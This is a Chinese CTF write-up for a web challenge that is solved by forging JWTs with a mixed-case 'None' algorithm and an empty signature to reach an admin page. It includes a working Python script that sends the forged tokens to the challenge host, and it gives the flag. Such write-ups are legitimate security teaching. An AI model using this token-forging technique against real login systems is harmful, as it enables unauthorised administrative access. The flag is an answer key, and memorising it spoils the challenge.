


# 20 JWT是啥 · Web

- 分类：Web ｜ 分值：200 ｜ 状态：平台已解
- 页面用 JWT 做登录态，把 `alg` 写成大小写混排的 `None` 就能绕过验签，拿到管理员看板里的 flag。

## 题目

- 题号 20，题名「JWT是啥」，题面无正文，出题人 chen。
- 动态容器，站点是一个「2026 春季招新」成员门户：`/` 是公开页，`/admin.php` 是管理后台，登录态放在 `token` cookie 里。

## 思路

- 先看首页和页面里的「更新日志」，作者明确写了「已修复 alg=none 的问题」——那就说明修的是精确匹配 `none`，试试大小写变体。
- JWT 三段式：header.payload.signature。把 header 里的 `alg` 改成 `None`、签名段留空，再放一个 `role: admin` 的 payload。
- 常见弱密钥爆破（字典跑 HS256）在本机耗时很久也没结果，绕开签名才是本题正解。

## 关键步骤

1. 构造 header `{"alg":"None","typ":"JWT"}`，payload `{"uid":20260001,"name":"guest","role":"admin",...}`，base64url 后拼成 `h.p.`（第三段留空）。
2. 带 `Cookie: token=<jwt>` 请求 `/admin.php`。
3. 分别试 `none`、`None`、`NONE`、`nOnE` 和空串：全小写和空串被拒（返回登录页），三种大小写混排都放行。

```python
import base64, json, urllib.request, re

BASE = 'http://103.85.23.250:32289'
b64u = lambda b: base64.urlsafe_b64encode(b).decode().rstrip('=')
payload = {"uid": 20260001, "name": "guest", "role": "admin", "dept": "public"}

def make(alg, sig=''):
    h = b64u(json.dumps({"alg": alg, "typ": "JWT"}, separators=(',', ':')).encode())
    p = b64u(json.dumps(payload, separators=(',', ':')).encode())
    return f'{h}.{p}.{sig}'

for alg in ['none', 'None', 'NONE', 'nOnE', '']:
    r = urllib.request.Request(BASE + '/admin.php',
        headers={'User-Agent': 'curl/8.5.0', 'Cookie': f'token={make(alg)}'})
    body = urllib.request.urlopen(r, timeout=10).read().decode()
    print(alg, 'S3C{' in body, re.findall(r'S3C\{[^}]*\}', body))
```

实测回显（`none` 与空 alg 被拒，大小写混排通过）：



进到管理后台后，页面顶部的「内部通知」里就是 flag：



## Flag

```text
S3C{a3890e3b2047}
```

## 踩坑 / 备注

- 只改 payload 不改 `alg` 没用，服务端会验签失败；关键是让 `alg` 走「无签名」分支。
- 小写 `none` 是被明确修复掉的，必须用大小写变体（`None` / `NONE` / `nOnE`）才能绕过那一次字符串比较。
